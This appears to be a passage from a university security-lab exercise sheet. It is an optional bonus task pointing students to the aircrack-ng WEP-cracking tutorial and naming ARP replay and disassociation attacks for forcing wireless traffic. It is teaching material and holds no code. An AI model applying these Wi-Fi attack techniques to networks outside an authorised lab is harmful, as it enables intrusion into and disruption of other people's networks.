5. As a completly optional extra, if you feel this was too easy, and have finished the assignment, take a look at http://www.aircrack-ng.org/doku.php?id=simple_wep_crack. If a network is not generating enough traffic for an attack by itself, there are more sophisticated attacks using e.g. ARP replay and disassociation to force traffic to be generated. Feel free to play around with this, but note that if your network driver does not support packet injection (the linked tutorial contains instructions on how to test that) these attacks will likely not work without patching and recompiling your driver first. Only do this if you have time left over, and DO NOT USE A DISASSOCIATION ATTACK. I will be very unhappy if you do because it messes with the exercise setup. Document what you do in a file called exerciseBONUS.
	* Answer		
